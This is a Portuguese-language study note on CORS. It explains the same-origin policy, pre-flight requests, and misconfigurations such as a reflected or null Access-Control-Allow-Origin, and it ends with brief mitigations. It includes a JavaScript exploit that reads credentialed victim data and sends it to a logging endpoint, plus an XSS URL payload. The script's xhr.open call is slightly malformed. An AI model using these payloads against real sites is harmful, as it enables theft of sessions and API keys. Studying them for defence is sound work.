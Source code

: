 #web 


O CORS ou **Cross-origin resource sharing** é um mecanismo presente nos navegadores para habilitar o acesso a recursos de outros domínios ou outras fontes. Ele extende outro mecanismo o [[SOP]].

## CORS e SOP

O SOP é um mecanismo bem restritivo e muitos websites interajem com outros websites, seja de subdomínios ou websites de terceiros. Uma maneira de "relaxar" essa interação é através do CORS.

O CORS utilizada um conjunto de headers HTTP para definir as origens confiáveis, como por exemplo:
* **Access-Control-Allow-Origin** -> quando um servidor web recebe uma requisição HTTP de origem diferente, ele responde incluindo esse header na resposta.
* **Access-Control-Allow-Credentials** -> o comportamento padrão de requisições CORS são de requisições onde não é passado as credenciais, entretanto o servidor pode permitir que o JS na origem inclua as credenciais na requisição.

## Pre-flight

É uma requisição CORS que utiliza 3 headers HTTP:

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

Essa requisição é enviada automaticamente para o servidor, perguntando ao servidor se é possível utilizar requisições como por exemplo o **DELETE**.

Se o servidor permitir, ele irá retorna a resposta com seguinte cabeçalho:

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

## CORS e CSRF

O CORS não protege contra [[CSRF]], apenas flexibiliza a utilização do SOP, porém, se mal configurado pode ser uma ameaça a CSRF. 

## Vulnerabilidades

### Header ACAO gerado pelo servidor

Algumas aplicações permitem que qualquer domínio acesse seus recursos. Uma forma de testar isto é, modificando o `origin` e vendo a resposta do servidor.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: https://malicious-website.com` |
| `Origin: https://malicious-website.com`          | `Access-Control-Allow-Credentials: true`     |
| `Cookie: sessionid=...`                          | ...                                           |

Se a informação retorna dados sensíveis como dados de sessão, o *hacker* pode enviar um website fake para a vítima para colher esses dados, usando por exemplo o script abaixo:

```html
    <script>
        var xhr = new XMLHttpRequest();
        var url = "https://site-legitimo";
            
        xhr.onreadystatechange = function() {
            if(xhr.readyState === XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText);
            }
        }
        xhr.open("GET", url, "/sensitive-victim-data", true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>
```

### Whitelists

Um das formas de permitir determinados domínios, é criando uma lista de domínios permitidos. Algumas aplicações podem criar essas listas para permitir o acesso de todos os subdomínios (incluindo futuros subdomínios que não existe) por meio de regex ou adicionando prefixos e sufixos na url. Qualquer erro nessa implementação pode garantir acesso de domínios externos.

Outro caso, é o uso do valor `null` na *whitelist* para dar acesso ao ambiente de desenvolvimento local da aplicação.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: null` |
| `Origin: null`                                      | `Access-Control-Allow-Credentials: true`     |

Essa situação é semelhante a situação anterior.

### XSS

Mesmo que o CORS esteja configurado certo, se um website confiável é vulnerável a [[XSS]], o *hacker* pode usar isso ao seu favor, podendo pegar uma API key, usando a url:

```
https://subdomain.site-vulneravel.com/?xss=<script>aquele codigo acima do cors por exemplo</script>
```
## Como mitigar

* Evite usar o header `Access-Control-Allow-Origin: Null` e `Access-Control-Allow-Origin:*`
* Acesse apenas websites confiáveis

## Referência

https://portswigger.net/web-security/cors#vulnerabilities-arising-from-cors-configuration-issues